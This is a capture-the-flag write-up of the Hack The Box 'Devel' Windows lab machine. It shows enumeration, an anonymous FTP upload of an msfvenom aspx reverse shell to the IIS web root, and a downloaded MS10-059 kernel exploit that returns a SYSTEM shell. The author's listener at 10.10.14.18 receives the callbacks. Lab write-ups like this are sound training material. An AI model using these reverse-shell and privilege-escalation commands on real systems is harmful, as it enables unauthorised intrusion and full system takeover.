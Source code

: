 # Devel

![image](https://user-images.githubusercontent.com/10210108/79370040-fcc98380-7f1f-11ea-8333-a85c36c3d15f.png)

## Overview

Devel is a windows box running an ftp server that allowed read/write access to anonymous users to the root of the webserver folder. Initial footbold was gained by uploading an aspx reverse shell and accessing it via port 80 which provided initial access to the box. I then used Windows-Exploit-Suggester to to which showed it was vulnerable to MS10-59, upon running I was able to create a reverse shell as 'nt authority\system'.

## Enumeration

**Software**
* Microsoft Windows 7 Enterprise
* IIS 7.5

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.5 -oN /root/boxes/devel/_full_tcp_nmap.txt
```
* 21/tcp - Windows IIS ftp
* 80/tcp - Microsoft IIS httpd 7.5

**Directory/File Brute Force***
```
gobuster dir -u http://10.10.10.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x asp,aspx -t 40
```

_no results_

## Steps (user)

Reviewing the nmap results showed that two ports are open: 80 (http) and 21 (ftp). Browsing to http://10.10.10.5 showed the default IIS 7 page. Since gobuster didn't turn up any interesting results I moved on to port 21. 

> The nmap scan showed that the ftp server allowed anonymous login. 

![image](https://user-images.githubusercontent.com/10210108/81018650-f64d6e00-8e32-11ea-84c4-6e100d1d4c6b.png)

> nmap with -A combines -O, -sV, and -sC which Enable OS detection, version detection, and script scanning.

Being able to read is good but being able to write is better. As a test I created a file to test my ability to upload/write and was successful.

```
echo 'this is a test' > test.txt
```

![image](https://user-images.githubusercontent.com/10210108/81019777-5c3af500-8e35-11ea-9d9f-91314bdc8915.png)

![image](https://user-images.githubusercontent.com/10210108/81019834-7bd21d80-8e35-11ea-87eb-f515ea7146f3.png)

Since I now had confirmation that I could upload files to the ftp server and execute them on the website, I proceeded to create a reverse shell payload in aspx format with msfvenom

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.18 lport=4200 -f aspx > rshell.aspx
```

I set up a netcat listener (rlwrap nc -lvnp 4200) and uploaded the file to the ftp server.

```
ftp 10.10.10.5
username: anonymous
password: blank
put rshell.aspx
```

After browsing to rshell.aspx I received a callback to my netcat listener.

![image](https://user-images.githubusercontent.com/10210108/81020403-ba1c0c80-8e36-11ea-8095-6d86a7a744ee.png)

## Steps (root/system)

Since this is an older box I used Windows Exploit Suggester. For newer boxes there are other options such as wesng, Sherlock, or Watson.

According to wesng github page:

> I developed WES-NG because while GDSSecurity's Windows-Exploit-Suggester worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for operating systems like Windows 10 and vulnerabilities published in recent years. This is because Microsoft replaced the Microsoft Security Bulletin Data Excel file [1] on which GDSSecurity's Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The Microsoft Security Bulletin Data Excel file has not been updated since Q1 2017, so later operating systems and vulnerabilities cannot be detected. 

Moving forward with wes; this tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.


```
./windows-exploit-suggester.py -l --database ~/tools/Windows-Exploit-Suggester/2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](https://user-images.githubusercontent.com/10210108/81022003-86db7c80-8e3a-11ea-9ff6-8a61d34d56ac.png)

> In the results [E] means exploitdb POC, and [M] means metasploit module.

I didn't have any luck with MS11-011 so I tried MS10-059. First I downloaded MS10-059 to my local machine

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

I used the anonymous ftp server to upload the file and started a netcat listener on a new port (rlwrap nc -lvnp 4201)

```
ftp 10.10.10.5
username: anonymous
password: blank
binary
put MS10-059.exe
```

I executed ms10-059.exe, providing my box's IP and port as parameters and received a shell as 'nt authority\system'

```
ms10-059.exe 10.10.14.18 4201
```

![image](https://user-images.githubusercontent.com/10210108/81023823-a1642480-8e3f-11ea-86cf-a34219d3d1c7.png)
